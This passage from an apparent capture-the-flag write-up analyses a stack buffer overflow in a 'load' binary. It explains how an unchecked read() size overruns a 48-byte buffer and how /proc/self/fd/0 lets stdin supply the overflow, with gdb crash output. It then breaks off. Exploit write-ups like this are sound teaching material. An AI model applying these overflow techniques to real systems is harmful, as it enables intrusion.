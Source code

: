 So we can see here, the function tries to open a file, with the filename being stored in `bss_input`. If it suceeds, it will then set the offset that we gave it with the `lseek` function. Proceeding that it uses the `read` function to scan in the amount of bytes that we specified as the input size into `buf`. This is a bug, since it doesn't check that it isn't scanning in more bytes than `buf` can hold which is `56` bytes (the pointer it is scanning into is `char32` which the function is called with as an argument, also it holds 48 bytes, however there is 56 bytes between the start of the space it points to and the return address). With that we have a buffer overflow. Also our code execution doesn't happen untill the main function returns, since that is the return address which we can overflow.

## Weaponization

#### Sending our own input

So we have a buffer overflow. The caveat to that, is that the input has to be from a file on a remote server which we can't write to any files. So we're going to have to jump through some hoops to get RCE, and not just a DOS.

 For what file to read from, we can read from `/proc/self/fd/0`. This file refers to `STDIN`, which allows a program to read data from the terminal. The corresponding file for `STDOUT` would be `1`. We can see here that it allows us to scan in our own input if we select that file:
 
```
 gdb-peda$ r
Starting program: /Hackery/tokyowesterns/load/load 
Load file Service
Input file name: /proc/self/fd/0
Input offset: 0
Input size: 64
0000000000000000000000000000000000000000000000000000000000000000
Load file complete!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x7ffff7b048f0 (<__close_nocancel+7>:	cmp    rax,0xfffffffffffff001)
RDX: 0x7ffff7dd3780 --> 0x0 
RSI: 0x7ffff7dd26a3 --> 0xdd3780000000000a 
RDI: 0x2 
RBP: 0x3030303030303030 ('00000000')
RSP: 0x7fffffffde88 ("00000000\001")
RIP: 0x4008a8 (ret)
R8 : 0x7ffff7fd8700 (0x00007ffff7fd8700)
R9 : 0x1999999999999999 
R10: 0x0 
R11: 0x246 
R12: 0x400720 (xor    ebp,ebp)
R13: 0x7fffffffdf60 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10217 (CARRY PARITY ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40089d:	call   0x4008d8
   0x4008a2:	mov    eax,0x0
   0x4008a7:	leave  
=> 0x4008a8:	ret    
   0x4008a9:	push   rbp
   0x4008aa:	mov    rbp,rsp
   0x4008ad:	mov    rax,QWORD PTR [rip+0x20077c]        # 0x601030 <stdin>
   0x4008b4:	mov    esi,0x0
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffde88 ("00000000\001")
0008| 0x7fffffffde90 --> 0x1 
```